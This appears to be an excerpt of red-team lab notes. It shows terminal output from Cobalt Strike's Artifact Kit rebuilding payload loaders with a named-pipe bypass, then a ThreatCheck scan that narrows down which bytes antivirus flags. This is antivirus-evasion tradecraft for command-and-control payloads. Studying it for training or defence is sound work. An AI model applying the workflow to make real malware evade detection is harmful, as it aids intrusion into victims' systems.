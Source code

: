 ```bash
[Artifact kit] [*] Using allocator: VirtualAlloc
[Artifact kit] [*] Using STAGE size: 310272
[Artifact kit] [*] Using RDLL size: 5K
[Artifact kit] [*] Using system call method: none
[Artifact kit] [+] Artifact Kit: Building artifacts for technique: pipe
[Artifact kit] [*] Recompile artifact32.dll with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32svc.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32big.dll with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32big.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32svcbig.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64.x64.dll with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64svc.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64big.x64.dll with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64big.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64svcbig.exe with src-common/bypass-pipe.c
[Artifact kit] [+] The artifacts for the bypass technique 'pipe' are saved in '/mnt/c/Tools/cobaltstrike/artifacts/pipe'
ubuntu@DESKTOP-3BSK7NO /m/c/T/c/a/k/artifact>
```
scanned with `ThreatCheck.exe` and got a new bad offset to work on.
```bash
PS C:\Users\Attacker> C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Tools\cobaltstrike\artifacts\pipe\artifact64svcbig.exe
[+] Target file size: 329728 bytes
[+] Analyzing...
[*] Testing 164864 bytes
[*] Threat found, splitting
[*] Testing 82432 bytes
[*] Threat found, splitting
[*] Testing 41216 bytes
[*] Threat found, splitting
[*] Testing 20608 bytes
[*] Threat found, splitting
[*] Testing 10304 bytes
[*] Threat found, splitting
[*] Testing 5152 bytes
[*] Threat found, splitting
[*] Testing 2576 bytes
[*] No threat found, increasing size
[*] Testing 166152 bytes
[*] Threat found, splitting
[*] Testing 84364 bytes
[*] Threat found, splitting
[*] Testing 43470 bytes
[*] Threat found, splitting
[*] Testing 23023 bytes
[*] Threat found, splitting
[*] Testing 12799 bytes
[*] Threat found, splitting
[*] Testing 7687 bytes
[*] Threat found, splitting
[*] Testing 5131 bytes
[*] Threat found, splitting
[*] Testing 3853 bytes
[*] Threat found, splitting
[*] Testing 3214 bytes
[*] No threat found, increasing size
[*] Testing 166471 bytes
[*] Threat found, splitting
[*] Testing 84842 bytes
[*] Threat found, splitting
```